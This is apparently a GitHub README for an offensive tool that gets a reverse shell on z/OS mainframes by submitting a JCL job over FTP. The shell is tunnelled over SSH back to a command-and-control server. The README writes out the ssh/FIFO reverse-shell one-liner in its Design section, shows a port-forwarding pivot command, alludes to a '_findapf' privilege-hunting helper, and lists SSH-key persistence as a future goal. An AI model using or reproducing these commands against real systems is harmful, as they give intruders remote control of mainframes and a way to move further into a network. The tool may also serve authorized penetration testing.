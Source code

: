 # zos-pivoting

I wanted a secure reverse shell, with builtin pivoting functions, On a mainframe!

This repo contains a few Python modules and scripts to get a secure reverse shell by submitting a JCL job via FTP on z/OS.

```
$ python ftp2shell.py config.ini
Input the password for zuser on target.mainframe.net:

Save the pulic key below in ~ccserveraccount/.ssh/authorized_keys

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+og7UDXjtluvauvB3Uo7eFqYGTDYlptkd[...]

Press Enter to continue...
mf.bigiron.local> uname
OS/390
mf.bigiron.local> exit
This will terminate the connection to mf.bigiron.local, are you sure? (y/N) y
```

## Usage:
The main files are:
 * `config.ini` a sample configuration file
 * `ftp2shell.py` the main script, it uses the config file and the next items

To get a shell:
 * Edit `config.ini`
 * Run `python ftp2shell.py config.ini`. The script will:
    - connect to the mainframe via FTP
    - generate and run a JCL batch
    - start an SSH connection against `cc_server` and start a tunneled clear-text shell
    - start the shell management
 * The resulting shell is a nearly full-featured SH shell.
The SSH tunnelling protects the shell.
 * There is a custom `_runssh` command which can be used to run further SSH commands.
Think port forwarding and that goodness.
For example, to get access to TN3270 on your localhost run:
```
mainframe> _runssh -R 2222:localhost:23
```
And then connect to localhost:2222.
 * there is also a `_findapf` command there too. You should know what that is for :)

## Design
This project uses the SSH stdin and stout redirection to get a fully interactive reverse shell on a mainframe.
You need OpenSSH>=5.4.

Here is an example:

```
ssh -i $KEYNAME $CCU@$CCS -p $CCP -o UserKnownHostsFile=$KNOWNHOSTSFILE -o StrictHostKeyChecking=yes -N \
-W $NCIP:$NCP < $FIFONAME | sh -s > $FIFONAME 2>&1 & echo $STARTSEND > $FIFONAME'
```

SSH tunnels stdin and stdout, piping to a shell.
A FIFO file contains all the inputs and outputs to and from the shell.
Please note how awesome the strong host fingerprint checking and the key-based authentication are.

The same principle can be applied to other systems running SSH.

You have to do the cleanup on the mainframe by yourself.

Python >= 3.7 only.

## Requirements
You have to create a user in your machine to get the reverse connection on your `cc_server` (see the config file).
The user does not need an interactive shell.

## Dependencies
OpenSSH>=5.4.

Python >= 3.7.

You can install the [ebcdic](https://pypi.org/project/ebcdic/) package to support more character encodings.

The default EBCDIC support in Python 3 should be enough most of the time.

## Future Steps
* Automate the pivoting by parsing the output of netstat/NETSTAT and:
    - ssh -R
    - ssh -L
    - starting a local sshd
* Persistence via SSH keys (?)
* Port to other systems

## Can't do on z/OS
* Cannot automate running custom sshd server:
    * sshd has no run permissions for users by default
    * copying the binary to another path will not work, as a daemon need to be marked as `program controlled`
    * ***z/OS 2.4 will probably get the latest and greatest OpenSSH with full `-R` support***
